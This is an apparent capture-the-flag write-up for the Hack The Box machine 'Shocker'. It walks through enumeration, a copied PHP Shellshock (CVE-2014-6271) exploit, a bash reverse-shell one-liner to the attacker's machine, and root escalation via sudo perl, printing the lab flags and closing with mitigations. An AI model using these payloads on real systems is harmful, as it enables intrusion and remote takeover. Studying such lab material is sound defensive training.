

# Shocker

## Open Ports

```bash
sudo nmap -p80,2222 -sV -sC -oA nmap/full-tcp-version 10.10.10.56
```

```none
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-15 16:49 EDT
Nmap scan report for 10.10.10.56
Host is up (0.031s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)     
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                    
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)                   
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)                 
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)              
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Vulnerability Discovery

Web services are normally a good place to search. Navigating to the web root reveals the following page:



The source revealed nothing interesting, so the next step is to discover web content. Since the nmap scan revealed
an apache web server, I searched for common directories in apache installations.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt -f -u http://10.10.10.56 -o apache-fuzz.out
```

Notice how in the command above, I used the `-f` flag so that a trailing slash will be appended to each directory being
discovered. For each 200 or 403 response returned from the web server, that will be a directory to search for more web
content.

```none
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Add Slash:      true
[+] Timeout:        10s
===============================================================
2020/08/15 17:26:51 Starting gobuster
===============================================================
//.htaccess.bak/ (Status: 403)
//.htpasswd/ (Status: 403)
//.htaccess/ (Status: 403)
//cgi-bin/ (Status: 403)
//icons/ (Status: 403)
//server-status/ (Status: 403)
===============================================================
2020/08/15 17:27:28 Finished
===============================================================
```

Notice how `/cgi-bin/` results in a 403. Using the following command, we can continue to brute force more content in that directory:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -x .sh,.cgi -u http://10.10.10.56/cgi-bin/ -o raft-large-words-lowercase-sh-cgi.out
```

We search for content ending in `.sh` and `.cgi` extensions because those are logical extensions to search for in a `/cgi-bin/` directory.
If we get any hits, we can audit the server for the shellshock vulnerability (CVE-2014-6271) to get remote code execution via Apache by injecting a malicious header.

```none
===============================================================
2020/08/15 18:00:00 Starting gobuster
===============================================================
/.html (Status: 403)
/.html.sh (Status: 403)
/user.sh (Status: 200)
... CONTENT SNIPPED ...
```

Navigating to `http://10.10.10.56/cgi-bin/user.sh` results in an HTTP 200 OK. This should be sufficient to audit for the shellshock vulnerability.

## Exploiting the Shellshock Bug (CVE-2014-6271)

We can search for shellshock exploits with the following:

```bash
searchsploit shellshock
```

```none
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path                           
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Advantech Switch - 'Shellshock' Bash Environment Variable Command Injection (Metasploit)                                                                                       | cgi/remote/38849.rb         
Apache mod_cgi - 'Shellshock' Remote Command Injection                                                                                                                         | linux/remote/34900.py
Bash - 'Shellshock' Environment Variables Command Injection                                                                                                                    | linux/remote/34766.php
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                                                                                                  | cgi/webapps/34895.rb
Cisco UCS Manager 2.1(1b) - Remote Command Injection (Shellshock)                                                                                                              | hardware/remote/39568.py
dhclient 4.1 - Bash Environment Variable Command Injection (Shellshock)                                                                                                        | linux/remote/36933.py
GNU Bash - 'Shellshock' Environment Variable Command Injection                                                                                                                 | linux/remote/34765.txt
IPFire - 'Shellshock' Bash Environment Variable Command Injection (Metasploit)                                                                                                 | cgi/remote/39918.rb
NUUO NVRmini 2 3.0.8 - Remote Command Injection (Shellshock)                                                                                                                   | cgi/webapps/40213.txt
OpenVPN 2.2.29 - 'Shellshock' Remote Command Injection                                                                                                                         | linux/remote/34879.txt
PHP < 5.6.2 - 'Shellshock' Safe Mode / disable_functions Bypass / Command Injection                                                                                            | php/webapps/35146.txt
Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection                                                                                                            | linux/remote/34896.py
RedStar 3.0 Server - 'Shellshock' 'BEAM' / 'RSSMON' Command Injection                                                                                                          | linux/local/40938.py
Sun Secure Global Desktop and Oracle Global Desktop 4.61.915 - Command Injection (Shellshock)                                                                                  | cgi/webapps/39887.txt
TrendMicro InterScan Web Security Virtual Appliance - 'Shellshock' Remote Command Injection                                                                                    | hardware/remote/40619.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

We can mirror the exploit code from **Bash - 'Shellshock' Environment Variables Command Injection**:

```bash
searchploit -m linux/remote/34766.php
```

```php
<?php
/*
Title: Bash Specially-crafted Environment Variables Code Injection Vulnerability
CVE: 2014-6271
Vendor Homepage: https://www.gnu.org/software/bash/
Author: Prakhar Prasad && Subho Halder
Author Homepage: https://prakharprasad.com && https://appknox.com
Date: September 25th 2014
Tested on: Mac OS X 10.9.4/10.9.5 with Apache/2.2.26
	   GNU bash, version 3.2.51(1)-release (x86_64-apple-darwin13)
Usage: php bash.php -u http://<hostname>/cgi-bin/<cgi> -c cmd
	   Eg. php bash.php -u http://localhost/cgi-bin/hello -c "wget http://appknox.com -O /tmp/shit"
Reference: https://www.reddit.com/r/netsec/comments/2hbxtc/cve20146271_remote_code_execution_through_bash/

Test CGI Code : #!/bin/bash
				echo "Content-type: text/html"
				echo ""
				echo "Bash-is-Vulnerable"

*/
error_reporting(0);
if(!defined('STDIN')) die("Please run it through command-line!\n");
$x  = getopt("u:c:");
if(!isset($x['u']) || !isset($x['c']))
{
	die("Usage: ".$_SERVER['PHP_SELF']." -u URL -c cmd\n");

}
$url = $x['u'];
$cmd = $x['c'];

$context = stream_context_create(
	array(
		'http' => array(
			'method'  => 'GET',
			'header'  => 'User-Agent: () { :;}; /bin/bash -c "'.$cmd.'"'
		)
	)
);
$req = file_get_contents($url, false, $context);
if(!$req && strpos($http_response_header[0],"500") > 0 )
	die("Command sent to the server!\n");
else if($req && !strpos($http_response_header[0],"500") > 0)
	die("Server didn't respond as it should!\n");
else if(!$req && $http_response_header == NULL)
	die("A connection error occurred!\n")
?>
```

The exploit code is pretty straight forward: it sends an HTTP request to the web server and injects the shellshock payload `() { :;}; [YOUR SHELL COMMAND]`
via the `User-Agent` header so that it will be processed by the web server.

In Apache `mod_cgi`, HTTP headers set as environment variables. This is where the shellshock
bug comes into play. When setting an environment variable in bash like the following: `env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`, if your version
of bash is vulnerable to the shellshock bug, then the command `echo this is a test` will be executed as soon as the environment variable is set.

We can run the exploit to verify remote code execution with a blind ping towards my kali machine (10.10.14.33):

```bash
php 34766.php -u http://10.10.10.56/cgi-bin/user.sh -c "ping -c 1 10.10.14.33"
```

The ping listener on my kali machine revealed that 10.10.10.56 was able to ping it:

```bash
sudo tcpdump -i tun0 icmp
```

```none
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
18:05:20.031187 IP 10.10.10.56 > 10.10.14.33: ICMP echo request, id 1600, seq 1, length 64
18:05:20.031212 IP 10.10.14.33 > 10.10.10.56: ICMP echo reply, id 1600, seq 1, length 64
```

With the following command, we can get Apache to execute a bash reverse shell which will connect back to the netcat listener on my kali machine on port 2001:

```bash
php 34766.php -u http://10.10.10.56/cgi-bin/user.sh -c "bash -i >& /dev/tcp/10.10.14.33/2001 0>&1"
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.56.
Ncat: Connection from 10.10.10.56:47634.
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

After [upgrading this reverse netcat shell to a pseudo terminal](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2),
we can see that we are now executing code as the `shelly` user:

```none
shelly@Shocker:/usr/lib/cgi-bin$ id                                 
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Navigating to the `/home/shelly` directory, we can find the user flag:

```bash
shelly@Shocker:/home/shelly$ cat /home/shelly/user.txt   
2ec24e11320026d1e70ff3e16695b233
```

## Privilege Escalation

One of the easist privilge escalation vectors to check for in Linux is `sudo` permissions. We can list sudo permissions like the following:

```none
$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can then abuse the `/usr/bin/perl` command to gain remote code execution on the host with root privileges:

```none
$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# id
uid=0(root) gid=0(root) groups=0(root)
```

Navigating to `/root`, we can get the root flag:

```none
cat /root/root.txt
52c2715605d70c7619030560dc1ca467
```

## Mitigations

* Upgrade bash to the latest version available.
* Use a dedicated `apache` user to run the web server. This way, you can still keep `shelly` as an admin user on the host and still run apache while reducing privilege escalation attack vectors.

Also, be very careful about granting `sudo` permissions to users. In this case, `/usr/bin/perl` is a very powerful command that can instantly grant a user a root shell.
